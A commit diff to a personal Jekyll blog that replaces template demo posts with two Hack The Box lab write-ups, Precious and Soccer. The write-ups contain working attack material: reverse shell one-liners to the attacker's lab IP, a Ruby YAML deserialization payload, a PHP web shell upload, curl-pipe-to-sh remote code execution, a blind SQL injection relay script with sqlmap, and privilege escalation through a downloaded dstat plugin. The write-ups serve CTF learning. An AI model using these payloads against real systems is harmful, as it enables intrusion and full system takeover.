

Before and after one commit to the7ir/the7ir.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1252 px high. Shown: the top 1239 px of the window at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Submit for setup Blog page

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -10,10 +10,10 @@
 ############################
 
 # Name of website
-title: My Website
+title: The7ir's Blog
 
 # Your name to show in the footer
-author: Some Person
+author: The7ir
 
 ###############################################
 # --- List of links in the navigation bar --- #
@@ -21,10 +21,7 @@ author: Some Person
 
 navbar-links:
   About Me: "aboutme"
-  Resources:
-    - Beautiful Jekyll: "https://beautifuljekyll.com"
-    - Learn markdown: "https://www.markdowntutorial.com/"
-  Author's home: "https://deanattali.com"
+  Author's home: "https://the7ir.github.io"
 
 ################
 # --- Logo --- #
@@ -32,7 +29,7 @@ navbar-links:
 
 # Image to show in the navigation bar - works best with a square image
 # Remove this parameter if you don't want an image in the navbar
-avatar: "/assets/img/avatar-icon.png"
+avatar: "/assets/img/avatar.jpg"
 
 # By default, the image is cut into a circle. You can disable this behaviour by setting 'round-avatar: false'
 round-avatar: true
@@ -49,13 +46,13 @@ round-avatar: true
 # Select the social network links that you want to show in the footer.
 # Uncomment the links you want to show and add your information to each one.
 social-network-links:
-  email: "someone@example.com"
+  email: "the7ir@gmail.com"
   rss: true  # remove this line if you don't want to show an RSS link at the bottom
-  facebook: deanattali
-  github: daattali
-  twitter: daattali
-  patreon: DeanAttali
-  youtube: c/daattali
+#  facebook: deanattali
+  github: the7ir
+#  twitter: daattali
+#  patreon: DeanAttali
+#  youtube: c/daattali
 #  medium: yourname
 #  reddit: yourname
 #  linkedin: daattali
@@ -94,7 +91,7 @@ share-links-active:
 
 # How to display the link to your website in the footer
 # Remove this if you don't want a link in the footer
-url-pretty: "MyWebsite.com"
+url-pretty: "https://the7ir.github.io"
 
 # Excerpt word length - Truncate the excerpt of each post on the feed page to the specified number of words
 excerpt_length: 50
--- a/_posts/2020-02-26-flake-it-till-you-make-it.md
+++ /dev/null
@@ -1,17 +0,0 @@
----
-layout: post
-title: Flake it till you make it
-subtitle: Excerpt from Soulshaping by Jeff Brown
-cover-img: /assets/img/path.jpg
-thumbnail-img: /assets/img/thumb.png
-share-img: /assets/img/path.jpg
-tags: [books, test]
----
-
-Under what circumstances should we step off a path? When is it essential that we finish what we start? If I bought a bag of peanuts and had an allergic reaction, no one would fault me if I threw it out. If I ended a relationship with a woman who hit me, no one would say that I had a commitment problem. But if I walk away from a seemingly secure route because my soul has other ideas, I am a flake?
-
-The truth is that no one else can definitively know the path we are here to walk. It’s tempting to listen—many of us long for the omnipotent other—but unless they are genuine psychic intuitives, they can’t know. All others can know is their own truth, and if they’ve actually done the work to excavate it, they will have the good sense to know that they cannot genuinely know anyone else’s. Only soul knows the path it is here to walk. Since you are the only one living in your temple, only you can know its scriptures and interpretive structure.
-
-At the heart of the struggle are two very different ideas of success—survival-driven and soul-driven. For survivalists, success is security, pragmatism, power over others. Success is the absence of material suffering, the nourishing of the soul be damned. It is an odd and ironic thing that most of the material power in our world often resides in the hands of younger souls. Still working in the egoic and material realms, they love the sensations of power and focus most of their energy on accumulation. Older souls tend not to be as materially driven. They have already played the worldly game in previous lives and they search for more subtle shades of meaning in this one—authentication rather than accumulation. They are often ignored by the culture at large, although they really are the truest warriors.
-
-A soulful notion of success rests on the actualization of our innate image. Success is simply the completion of a soul step, however unsightly it may be. We have finished what we started when the lesson is learned. What a fear-based culture calls a wonderful opportunity may be fruitless and misguided for the soul. Staying in a passionless relationship may satisfy our need for comfort, but it may stifle the soul. Becoming a famous lawyer is only worthwhile if the soul demands it. It is an essential failure if you are called to be a monastic this time around. If you need to explore and abandon ten careers in order to stretch your soul toward its innate image, then so be it. Flake it till you make it.
--- a/_posts/2020-02-28-test-markdown.md
+++ /dev/null
@@ -1,78 +0,0 @@
----
-layout: post
-title: Sample blog post
-subtitle: Each post also has a subtitle
-gh-repo: daattali/beautiful-jekyll
-gh-badge: [star, fork, follow]
-tags: [test]
-comments: true
----
-
-This is a demo post to show you how to write blog posts with markdown.  I strongly encourage you to [take 5 minutes to learn how to write in markdown](https://markdowntutorial.com/) - it'll teach you how to transform regular text into bold/italics/headings/tables/etc.
-
-**Here is some bold text**
-
-## Here is a secondary heading
-
-Here's a useless table:
-
-| Number | Next number | Previous number |
-| :------ |:--- | :--- |
-| Five | Six | Four |
-| Ten | Eleven | Nine |
-| Seven | Eight | Six |
-| Two | Three | One |
-
-
-How about a yummy crepe?
-
-![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)
-
-It can also be centered!
-
-![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}
-
-Here's a code chunk:
-
-~~~
-var foo = function(x) {
-  return(x + 5);
-}
-foo(3)
-~~~
-
-And here is the same code with syntax highlighting:
-
-```javascript
-var foo = function(x) {
-  return(x + 5);
-}
-foo(3)
-```
-
-And here is the same code yet again but with line numbers:
-
-{% highlight javascript linenos %}
-var foo = function(x) {
-  return(x + 5);
-}
-foo(3)
-{% endhighlight %}
-
-## Boxes
-You can add notification, warning and error boxes like this:
-
-### Notification
-
-{: .box-note}
-**Note:** This is a notification box.
-
-### Warning
-
-{: .box-warning}
-**Warning:** This is a warning box.
-
-### Error
-
-{: .box-error}
-**Error:** This is an error box.
--- /dev/null
+++ b/_posts/2023-04-20-Hack-The-Box-Precious.md
@@ -0,0 +1,128 @@
+---
+title: Hack The Box - Precious
+tags: [HTB, Webapp Exploit, nmap, Python]
+layout: post
+---
+
+Some Description
+
+## Summary
+- Information Gathering
+    - Nmap Scanning
+- Exploit CVE for Vulnerable Version
+- Privilege Escalation
+
+---
+
+## Information Gathering Stage
+### Nmap Scanning
+`sudo nmap -sV 10.10.11.189 -p-`
+
+```sh
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
+80/tcp open  http    nginx 1.18.0
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+```
+---
+## Exploiting Stage
+Web redirect to precious.htb → add record to hosts
+`echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts`
+Checking around the machine, we are gather a lot of information useful like: nginx 1.18.0, port 80,22, Function Convert remote file to PDF, ...
+Let's check version it! :) We have a traffic to getshell low privilege escalation
+
+*** Check pdf version ***
+```sh
+#exiftool file_name.pdf
+ExifTool Version Number         : 12.57
+File Name                       : file_name.pdf
+File Size                       : 23 kB
+File Permissions                : -rw-r--r--
+File Type                       : PDF
+File Type Extension             : pdf
+MIME Type                       : application/pdf
+...
+Creator                         : Generated by pdfkit v?.?.?
+```
+
+Just do google search to getshell.
+
+```bash
+http://10.10.14.8/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'
+```
+
+Get shell → swap user `ruby` to `henry` (credential at .bundle in /homw/Henry folder)
+
+User.txt: `********************************`
+
+## Privilege Escalation
+
+---
+
+Transfer File linpeas.sh
+
+```bash
+python3 -m http.server 1337
+Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
+10.10.11.189 - - [19/Apr/2023 22:49:13] "GET /linpeas.sh HTTP/1.1" 200 -
+```
+
+SUID
+
+```bash
+-rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent
+-rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
+-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
+-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /usr/bin/bash
+```
+
+`Sudo -l`
+
+```bash
+bash-5.1$ sudo -l
+
+Matching Defaults entries for henry on precious:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
+
+User henry may run the following commands on precious:
+    (root) NOPASSWD: /usr/bin/ruby **/opt/update_dependencies.rb**
+```
+
+Cat  **`/opt/update_dependencies.rb`**
+
+```bash
+---
+- !ruby/object:Gem::Installer
+    i: x
+- !ruby/object:Gem::SpecFetcher
+    i: y
+- !ruby/object:Gem::Requirement
+  requirements:
+    !ruby/object:Gem::Package::TarReader
+    io: &1 !ruby/object:Net::BufferedIO
+      io: &1 !ruby/object:Gem::Package::TarReader::Entry
+         read: 0
+         header: "abc"
+      debug_output: &1 !ruby/object:Net::WriteAdapter
+         socket: &1 !ruby/object:Gem::RequestSet
+             sets: !ruby/object:Net::WriteAdapter
+                 socket: !ruby/module 'Kernel'
+                 method_id: :system
+             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9999 0>&1'"
+         method_id: :resolve
+```
+
+It execute command at line in the end of file (git_set) → change value into Reverse shell (bash).
+
+### Listen and run file
+
+```bash
+nc -nlvp 9999
+```
+
+```bash
+sudo ruby /opt/update_dependencies.rb
+```
+
+Root.txt: `********************************`
--- /dev/null
+++ b/_posts/2023-04-26-Hack-The-Box-Soccer.md
@@ -0,0 +1,424 @@
+---
+title: Hack The Box - Soccer
+tags: [HTB, Webapp Exploit, WebSocket Exploit, nmap, Python, Privilege Escalation]
+layout: post
+---
+
+Some Description
+
+## Summary
+- Information Gathering
+    - Nmap Scanning
+    - Enum Subfolder
+- Exploit CVE for Vulnerable Version
+    - Exploit Website get Shell
+    - Figure out another Website
+- Privilege Escalation
+    - Enum
+    - Exploit
+
+---
+
+## Information Gathering Stage
+
+### Nmap Scanning
+
+`map -sV -sC -Pn -v -oN nmap-report_soccer -p- 10.10.11.194`
+
+```sh
+PORT     STATE SERVICE         VERSION
+22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
+80/tcp   open  http            nginx 1.18.0 (Ubuntu)
+9091/tcp open  xmltec-xmlmail?
+
+```
+
+---
+
+### Enum Subfolder
+
+```sh
+┌──(kali㉿kali)-[~/gobuster]
+└─$ sudo ./gobuster dir --url http://soccer.htb/ --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
+===============================================================
+Gobuster v3.5
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://soccer.htb/
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.5
+[+] Timeout:                 10s
+===============================================================
+2023/04/24 22:56:21 Starting gobuster in directory enumeration mode
+===============================================================
+/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
+Progress: 220534 / 220561 (99.99%)
+===============================================================
+2023/04/24 23:12:20 Finished
+===============================================================
+```
+
+---
+
+## Exploit CVE for Vulnerable Version
+
+---
+
+### Exploit Website get Shell
+
+---
+
+#### UnRestricted File Upload
+
+```sh
+POST /tiny/tinyfilemanager.php?p=tiny/uploads HTTP/1.1
+Host: soccer.htb
+Accept: application/json
+X-Requested-With: XMLHttpRequest
+Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb2kFsZoCHAQcAN7v
+...
+Connection: close
+
+------WebKitFormBoundaryb2kFsZoCHAQcAN7v
+Content-Disposition: form-data; name="p"
+
+tiny/uploads
+------WebKitFormBoundaryb2kFsZoCHAQcAN7v
+Content-Disposition: form-data; name="fullpath"
+
+pwn_the7ir.php
+------WebKitFormBoundaryb2kFsZoCHAQcAN7v
+Content-Disposition: form-data; name="file"; filename="pwn_123.php"
+Content-Type: text/plain
+
+<?php system($_REQUEST['cmd']); ?>
+------WebKitFormBoundaryb2kFsZoCHAQcAN7v--
+```
+
+---
+
+#### Call RCE
+
+```sh
+GET /tiny/uploads/pwn_the7ir.php?cmd=curl+userad+10.10.14.55%3a1337/reshell_python.sh|sh HTTP/1.1
+Host: soccer.htb
+...
+```
+
+Get shell www-data , but not read user.txt
+Find a way
+
+---
+
+#### Figure out another Website
+
+Cat /etc/nginx/nginx.conf
+
+```sh
+include /etc/nginx/modules-enabled/*.conf;
+http {
+        ...
+        include /etc/nginx/mime.types;
+        default_type application/octet-stream;
+        ...
+
+        access_log /var/log/nginx/access.log;
+        error_log /var/log/nginx/error.log;
+
+        include /etc/nginx/conf.d/*.conf;
+        include /etc/nginx/sites-enabled/*;
+}
+
+```
+
+View Ports listening
+
+```sh
+www-data@soccer:/etc/nginx$ netstat -tulpn
+
+Active Internet connections (only servers)
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
+tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1113/nginx: worker
+tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
+tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
+tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
+tcp6       0      0 :::80                   :::*                    LISTEN      1113/nginx: worker
+tcp6       0      0 :::22                   :::*                    LISTEN      -
+udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
+udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
+
+```
+
+Detect 80,22,300,9091,33060,3306,68,...
+
+Cat File in Config Folder
+
+```sh
+www-data@soccer:/etc/nginx/sites-enabled$ ls
+default  soc-player.htb
+www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
+cat soc-player.htb
+server {
+        listen 80;
+        listen [::]:80;
+
+        server_name soc-player.soccer.htb;
+
+        root /root/app/views;
+
+        location / {
+                proxy_pass http://localhost:3000;
+                proxy_http_version 1.1;
+                proxy_set_header Upgrade $http_upgrade;
+                proxy_set_header Connection 'upgrade';
+                proxy_set_header Host $host;
+                proxy_cache_bypass $http_upgrade;
+        }
+
+}
+```
+
+---
+
+### Figure out another Website
+
+`echo 10.10.11.194    soc-player.soccer.htb | sudo tee -a /etc/hosts`
+
+Testing around the second website
+
+Detect Subfolder for the second Website
+
+```sh
+$sudo ./gobuster dir --url http://soc-player.soccer.htb/ --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
+[sudo] password for kali:
+===============================================================
+Gobuster v3.5
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://soc-player.soccer.htb/
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.5
+[+] Timeout:                 10s
+===============================================================
+2023/04/25 01:55:24 Starting gobuster in directory enumeration mode
+===============================================================
+/img                  (Status: 301) [Size: 173] [--> /img/]
+/login                (Status: 200) [Size: 3307]
+/signup               (Status: 200) [Size: 3741]
+/css                  (Status: 301) [Size: 173] [--> /css/]
+/Login                (Status: 200) [Size: 3307]
+/js                   (Status: 301) [Size: 171] [--> /js/]
+/logout               (Status: 302) [Size: 23] [--> /]
+/check                (Status: 200) [Size: 31]
+/match                (Status: 200) [Size: 10078]
+/Signup               (Status: 200) [Size: 3741]
+/SignUp               (Status: 200) [Size: 3741]
+/Logout               (Status: 302) [Size: 23] [--> /]
+/signUp               (Status: 200) [Size: 3741]
+/Match                (Status: 200) [Size: 10078]
+/LogIn                (Status: 200) [Size: 3307]
+Progress: 116590 / 220561 (52.86%)[1]  + killed     leafpad note_soccer.txt
+/LOGIN                (Status: 200) [Size: 3307]
+Progress: 220534 / 220561 (99.99%)
+===============================================================
+2023/04/25 02:11:17 Finished
+===============================================================
+```
+
+Perform Signup and Login
+Web display 1 function search for ticket -> using Web socket
+
+Exploit Web socket
+
+```sh
+Server: http://soc-player.soccer.htb:9091/
+{"id":"53801 or substring(version(),1,1)=8"}
+```
+-> this is Blind SQL injection
+
+Using File python [Automating Blind SQL Injection](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) before i use sqlmap to auto leak data.
+
+```python
+from http.server import SimpleHTTPRequestHandler
+from socketserver import TCPServer
+from urllib.parse import unquote, urlparse
+from websocket import create_connection
+
+ws_server = "ws://soc-player.soccer.htb:9091/"
+
+def send_ws(payload):
+	ws = create_connection(ws_server)
+	# If the server returns a response on connect, use below line
+	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
+
+	# For our case, format the payload in JSON
+	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
+	data = '{"id":"%s"}' % message
+
+	ws.send(data)
+	resp = ws.recv()
+	ws.close()
+
+	if resp:
+		return resp
+	else:
+		return ''
+
+def middleware_server(host_port,content_type="text/plain"):
+
+	class CustomHandler(SimpleHTTPRequestHandler):
+		def do_GET(self) -> None:
+			self.send_response(200)
+			try:
+				payload = urlparse(self.path).query.split('=',1)[1]
+			except IndexError:
+				payload = False
+
+			if payload:
+				content = send_ws(payload)
+			else:
+				content = 'No parameters specified!'
+
+			self.send_header("Content-type", content_type)
+			self.end_headers()
+			self.wfile.write(content.encode())
+			return
+
+	class _TCPServer(TCPServer):
+		allow_reuse_address = True
+
+	httpd = _TCPServer(host_port, CustomHandler)
+	httpd.serve_forever()
+
+
+print("[+] Starting MiddleWare Server")
+print("[+] Send payloads in http://localhost:8081/?id=*")
+
+try:
+	middleware_server(('0.0.0.0',8081))
+except KeyboardInterrupt:
+	pass
+
+```
+
+Run file python
+
+```sh
+python3 ./websoc.py
+[+] Starting MiddleWare Server
+[+] Send payloads in http://localhost:8081/?id=*
+127.0.0.1 - - [25/Apr/2023 04:25:21] "GET /?id= HTTP/1.1" 200 -
+
+```
+Exploit SQL injection
+
+```sh
+sqlmap -u "http://localhost:8081/?id=1" --dbs
+sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
+sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump
+
+Database: soccer_db
+Table: accounts
+[1 entry]
++------+-------------------+----------------------+----------+
+| id   | email             | password             | username |
++------+-------------------+----------------------+----------+
+| 1324 | player@player.htb | Play***************2 | player   |
++------+-------------------+----------------------+----------+
+
+```
+
+Login with Player and cat file user.txt
+
+user: `********************************`
+
+---
+
+## Privilege Escalation
+
+---
+
+### Enumeration
+
+```sh
+www-data@soccer:/etc/nginx/sites-enabled$ echo $PATH
+
+/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
+
+$ ls /usr/local/bin
+
+doas  doasedit  vidoas
+
+```
+[What is doas???](https://www.maketecheasier.com/what-is-install-doas/#:~:text=Doas%20is%20a%20privilege%20escalation,systems%20through%20the%20OpenDoas%20program.)
+
+```sh
+$ cat /usr/local/etc/doas.conf
+cat /usr/local/etc/doas.conf
+permit nopass player as root cmd /usr/bin/dstat
+```
+
+---
+
+### Exploitation
+
+[How to exploit dstat to Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)
+
+Doas permit nopass player as root do command at /sr/bin/dstat
+
+We are prepare file dstat_exploit.py as plugin in dstat. Dstat_exploit.py is reshell python.
+
+List and backconnect to get root Shell.
+
+```sh
+$ pwd
+/usr/local/share/dstat
+
+$ wget 10.10.14.55:1338/dstat_exploit.py
+wget 10.10.14.55:1338/dstat_exploit.py --2023-04-26 01:43:27--  http://10.10.14.55:1338/dstat_exploit.py
+Connecting to 10.10.14.55:1338... connected.
+HTTP request sent, awaiting response... 200 OK
+Saving to: â€˜dstat_exploit.pyâ€™
+
+dstat_exploit.py    100%[===================>] 200 OK
+
+$ dstat --list | grep exploit
+dstat --list | grep exploit
+        exploit
+
+```
+
+Prepare is done, run listen `nc -nlvp 9001 ` and run command as root from player user.
+
+```sh
+$/usr/local/bin/doas -u root /usr/bin/dstat --exploit
+```
+
+Rooted
+
+```sh
+nc -nlvp 9001
+listening on [any] 9001 ...
+connect to [10.10.14.55] from (UNKNOWN) [10.10.11.194] 33450
+# whoami
+root
+# ls
+# pwd
+/usr/local/share/dstat
+# cd /root
+# ls
+app  root.txt  run.sql  snap
+# cat root.txt
+cat root.txt
+c1****************************0d
+
+```
--- a/index.html
+++ b/index.html
@@ -1,5 +1,5 @@
 ---
 layout: home
-title: My website
+title: The7ir's blog
 subtitle: This is where I will tell my friends way too much about me
 ---
````
Also changed, not shown: assets/img/avatar.jpg (added).
